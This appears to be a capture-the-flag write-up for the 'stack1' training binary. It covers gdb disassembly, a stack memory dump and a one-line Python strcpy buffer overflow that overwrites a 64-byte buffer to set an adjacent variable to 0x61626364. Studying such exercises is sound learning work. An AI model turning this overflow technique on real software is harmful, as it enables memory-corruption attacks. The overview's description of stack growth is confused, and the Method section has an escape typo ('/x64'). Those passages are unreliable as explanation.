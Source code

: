 # Stack 1
## Overview
    The esp(current stack pointer) grows upward when allocating memory 
    and the higher the esp goes, it points to smaller address number.
    Thus, you need to overwrite all the space of buffer(64 bytes) 
    and then overwrite the allocated space for int modified to 0x61626364.

## Process
    $ gdb -q ./stack1
    (gdb) disas main
        Dump of assembler code for function main:
            0x08048464 <+0>:     push   %ebp
            0x08048465 <+1>:     mov    %esp,%ebp
            0x08048467 <+3>:     and    $0xfffffff0,%esp
            0x0804846a <+6>:     sub    $0x60,%esp
            0x0804846d <+9>:     cmpl   $0x1,0x8(%ebp)
            0x08048471 <+13>:    jne    0x8048487 <main+35>
            0x08048473 <+15>:    movl   $0x80485a0,0x4(%esp)
            0x0804847b <+23>:    movl   $0x1,(%esp)
            0x08048482 <+30>:    call   0x8048388 <errx@plt>
            0x08048487 <+35>:    movl   $0x0,0x5c(%esp)
            0x0804848f <+43>:    mov    0xc(%ebp),%eax
            0x08048492 <+46>:    add    $0x4,%eax
            0x08048495 <+49>:    mov    (%eax),%eax
            0x08048497 <+51>:    mov    %eax,0x4(%esp)
            0x0804849b <+55>:    lea    0x1c(%esp),%eax
            0x0804849f <+59>:    mov    %eax,(%esp)
            0x080484a2 <+62>:    call   0x8048368 <strcpy@plt>
            0x080484a7 <+67>:    mov    0x5c(%esp),%eax
            0x080484ab <+71>:    cmp    $0x61626364,%eax
            0x080484b0 <+76>:    jne    0x80484c0 <main+92>
            0x080484b2 <+78>:    movl   $0x80485bc,(%esp)
            0x080484b9 <+85>:    call   0x8048398 <puts@plt>
            0x080484be <+90>:    jmp    0x80484d5 <main+113>
            0x080484c0 <+92>:    mov    0x5c(%esp),%edx
            0x080484c4 <+96>:    mov    $0x80485f3,%eax
            0x080484c9 <+101>:   mov    %edx,0x4(%esp)
            0x080484cd <+105>:   mov    %eax,(%esp)
            0x080484d0 <+108>:   call   0x8048378 <printf@plt>
            0x080484d5 <+113>:   leave
            0x080484d6 <+114>:   ret
        End of assembler dump.
    (gdb) b *main+71
        Breakpoint 1 at 0x80484ab: file stack1/stack1.c, line 18.
    (gdb) x/60x $esp
        0xffffd500: 0xffffd51c  0xffffd767  0xf7fb8000  0x0000cd57
        0xffffd510: 0xffffffff  0x0000002f  0xf7e12dc8  0x41414141
        0xffffd520: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd530: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd540: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd550: 0x00414141  0x080481e0  0x080484fb  0x00000000
        0xffffd560: 0xf7fb8000  0xf7fb8000  0x00000000  0xf7e1e637
        0xffffd570: 0x00000002  0xffffd604  0xffffd610  0x00000000
        0xffffd580: 0x00000000  0x00000000  0xf7fb8000  0xf7ffdc04
        0xffffd590: 0xf7ffd000  0x00000000  0xf7fb8000  0xf7fb8000
        0xffffd5a0: 0x00000000  0xe783169f  0xdbe2188f  0x00000000
        0xffffd5b0: 0x00000000  0x00000000  0x00000002  0x080483b0
        0xffffd5c0: 0x00000000  0xf7fedf10  0xf7fe8780  0xf7ffd000
        0xffffd5d0: 0x00000002  0x080483b0  0x00000000  0x080483d1
        0xffffd5e0: 0x08048464  0x00000002  0xffffd604  0x080484f0
    
    buffer[64]: from last stack of line 0xffffd510 
            to 3rd stack of line 0xffffd550 
            -> 64 bytes needs to be overwritten
    modified: from last stack of line 0xffffd550



## Method
    Use 64 bytes to overwrite buffer[64] and little endian of 0x61626364
    (/x64/x63/x62/x61) to overwrite modified.

## Answer
    ./stack1 $(python -c "print 'A'*64+'\x64\x63\x62\x61'")